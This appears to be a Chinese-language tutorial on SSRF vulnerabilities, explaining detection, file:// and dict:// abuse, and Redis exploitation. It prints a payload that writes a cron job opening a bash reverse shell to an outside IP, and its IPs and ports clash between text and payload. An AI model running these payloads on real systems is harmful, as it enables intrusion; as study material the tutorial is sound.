







# 服务器端请求伪造漏洞

### 一、概述

1. 服务器端请求：客户端向服务端发送请求报文，服务端接收请求报文后再向另一个服务端发送请求报文。这整个过程被称之为服务器端请求

2. 服务器端请求伪造（SSRF）：是一种由攻击者构造形成由服务器端发起请求的一个漏洞，让服务器去请求攻击者通常请求不到的东西，一般用来在外网探测或攻击内网服务。一般情况下，SSRF攻击达到目标是从外网无法访问的内部系统

   

3. 形成原因：一般时由于服务器端提供了从其它服务器获取应用数据的功能，但又没有对目标地址做严格的过滤与限制。导致了攻击者可以传入任意地址让后端服务器对其发送请求，并返回对该目标地址的请求数据

   最常见的例子是：攻击者传入一个未经验证的URL，后端代码直接请求这个URL，就会造成SSRF漏洞

4. 形成的危害：

   > 1. 获取web服务器可达服务器服务的banner信息，以及收集内网web应用的指纹识别，之后可以根据这些信息开始下一步渗透
   > 2. 攻击进行在内网的系统或应用程序，获取系统内网弱口令进行内网漫游，对有漏洞的内网web应用实施攻击

5. 常见的内网网段

   > * 10.0.0.0 ~ 10.255.255.255
   > * 172.16.0.0 ~ 172.31.255.255
   > * 192.168.0.0 ~ 192.168.255.255

6. 判断：传入一个非预期的URL（一般使用127.0.0.1），如果成功请求则存在SSRF漏洞

### 二、服务端请求伪造漏洞基础

1. 服务端请求伪造漏洞经常出现的场景

   > * 通过Web功能查找：会调用URL的功能
   >
   >   > * 通过URL地址分析网页内容：获取超链接的标题进行显示
   >   > * 文件处理、编码处理、转码等服务：通过URL地址把源地址的网页内容调优使其适合手机屏幕浏览
   >   > * 在线翻译：给网页翻译对应网页的内容
   >   > * 通过URL地址加载与下载图片：例如富文本编辑器的点击图片到本地；通过URL地址加载或下载图片
   >   > * 图片、文字收藏功能：主网站会获取URL地址中title以及文本的内容作为显示以改良用户体验
   >   > * 未公开的api实现及其它调用URL的功能
   >
   > * 从url关键字进行寻找：该关键字可能存储url信息
   >
   >   > share | wap | url | link | src | source | target | u | 3g | display | sourceURI | imageURL | domain | …
   >   >
   >   > ---
   >   >
   >   > 利用谷歌语法（inurl:url=）加上这些关键字去寻找SSRF漏洞

2. 产生漏洞的函数：

   > * PHP中的函数：
   >
   >   >  [curl_exec()](https://www.php.net/manual/zh/function.curl-exec.php)：前端传来的url被后台使用curl_exec( )进行了请求，然后将请求的结果又返回给前端
   >   >
   >   > [file_get_contents()](https://www.php.net/manual/zh/function.file-get-contents)：将整个文件读入一个字符串
   >   >
   >   > [fsockopen()](https://www.php.net/manual/zh/function.fsockopen)：打开一个网络连接或者一个Unix套接字连接
   >
   > * 

3. 分类：

   > * 有回显：从页面中可以看到返回内容
   >
   > * 无回显：从页面中看不到返回内容（一般不会有很大作用）
   >
   >   > 无回显的判断方式：
   >   >
   >   > 1. 通过HTTP的日志查看
   >   >
   >   > 2. 通过DNSlog的功能查看解析日志：
   >   >
   >   >    > * 使用[DNSLog Platform](http://dnslog.cn/)网站进行查询
   >   >    >
   >   >    >   
   >   >    >
   >   >    > * 使用[Burp](./01_Burp基础.md)的Burp Collaborator client功能进行查询

### 三、服务端请求伪造漏洞进阶

1. 利用SSRF读取敏感文件：使用**file协议**包含打开敏感文件

   * file协议的格式：`file://文件地址`

   * 如：`file://C:/Users/hikki/.ssh/key_01.pem`

   

2. 利用SSRF漏洞获取服务器所在的内网网段（内网IP）：使用**file协议**包含/etc/hosts文件

   * file协议：`file:///etc/hosts`

   在获取内网网段后，可以对相近的网段进行渗透，从而获取更多的指纹信息（获取服务器开放的端口）

3. 利用SSRF漏洞获取服务器的系统信息：

   * Ubuntu：

     

     ---

   * CentOS：`file:///etc/redhat-release`

4. 在确定内网ip后，利用SSRF探测目标服务器端口上运行的服务版本信息：利用**dict协议**

   * dict协议的格式：`dict://ip:port`

   * 利用爆破修改端口的值进行爆破，爆破针对单一IP

5. 在确定内网ip后，利用爆破对同C段的ip进行单一端口的检查：利用**dict协议**

   * 利用爆破修改D段的值进行爆破，爆破针对单一端口

6. 利用dict协议攻击redis

   > 1. Redis是一个由Salvatore Sanfilippo写的key-value存储系统，是一种跨平台的非关系型数据库。Redis一般绑定在本地的**6379端口**上，如果在没有开启认证的情况下，可以导致任意用户利用ssrf漏洞攻击内网中的未授权Redis以及读取Redis的数据
   >
   >    > 未授权：使用`dict://内网IP:6379/info`查看信息，若可以返回了数据，则说明未授权，不用密码查看
   >
   > 2. 在利用dict协议攻击redis之前，我们可以通过file协议包含/etc/hosts文件，查看服务机器内网网段；再通过SSRF漏洞对同C段中开启了6379端口的服务器进行探测，从而获取更多的攻击目标
   >
   > 3. dict协议攻击redis：如果允许redis的用户是root用户，攻击者可以通过写定时任务的方式反弹shell[^注]，在接收反弹shell的服务器获取到反弹的shell之后，可以直接在自己的shell中操作被攻击服务器的shell
   >
   >    * 反弹shell：通过菜刀工具getshell连接webshell的攻击相当于一种正向连接，利用服务器通过端口进行通信；而反弹shell是一个反向的连接，是目标服务器主动发起的连接，所以必须要有公网上的服务器接收反弹shell
   >
   >      
   >    
   >    * 反弹shell的姿势：[Linux下几种反弹Shell方法的总结与理解 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/178150.html)
   >    
   >    > 1. 定时任务的存储目录：
   >    >
   >    >    * centos：在/var/spool/cron/目录下
   >    >    * Ubuntu：在/var/spool/cron/crontabs/目录下
   >    >
   >    >    > 注：运行redis的系统不一定与存在SSRF漏洞的系统一致。所以在请求的是否最好将这两个文件夹都试试，找到能用的那个
   >    >
   >    > 2. 攻击使用的payload：假设所攻击的服务器内网IP为172.17.0.5，获取反弹shell的服务器为120.79.135.77:2333
   >    >
   >    >    > ~~~shell
   >    >    > # 给被攻击的服务器传递的payload
   >    >    > dict://172.17.0.1:6379/flushall							# 清空数据库
   >    >    > dict://172.17.0.1:6379/config set dir /var/spool/cron/  # 设置数据库备份文件的目录
   >    >    > dict://172.17.0.1:6379/config set dbfilename root		# 设置文件名
   >    >    > # 下面一的语句，表示将服务器获取的shell反弹到120.79.135.77的1234端口
   >    >    > dict://172.17.0.1:6379/set x "\n* * * * * bash -i >& /dev/tcp/120.79.135.77/1234 0>&1\n"
   >    >    > dict://172.17.0.1:6379/save
   >    >    > ~~~
   >    >    >
   >    >    > ---
   >    >    >
   >    >    > ~~~shell
   >    >    > # 给接收反弹shell服务器传递的语句：监听1234端口
   >    >    > nc -lvvp 1234
   >    >    > ~~~

7. gopher协议攻击redis

   > 1. gopher协议的基本协议格式：`gopher://<host>:<port>/<gopher-path>_后接TCP数据流`
   >
   >    gopher协议数据部分需要使用url编码
   >
   > 2. 使用python脚本Gophers在SSRF易受攻击的站点上生成Gopher负载以利用SSRF并获得RCE
   >
   >    > 1. 可以攻击的应用：MySQL、FastCGI、Memcached、Redis、Zabbix、SMTP
   >    >
   >    > 2. 项目地址：[tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)
   >    >
   >    > 3. 使用详情：~图片太小，想看直接进文件夹看去~
   >    >
   >    >    
   >    >
   >    >    在获取gopher协议后，将其输入到存在服务器端请求伪造漏洞的地方即可
   >    >
   >    >    ---
   >    >
   >    >    ~~~shell
   >    >    # 给接收反弹shell服务器传递的语句：设置监听端口
   >    >    nc -lvvp 2333
   >    >    ~~~

[^注]: [shell有哪些？Zsh和Bash的区别是什么？ - 简书 (jianshu.com)](https://www.jianshu.com/p/a891af6f87e0)

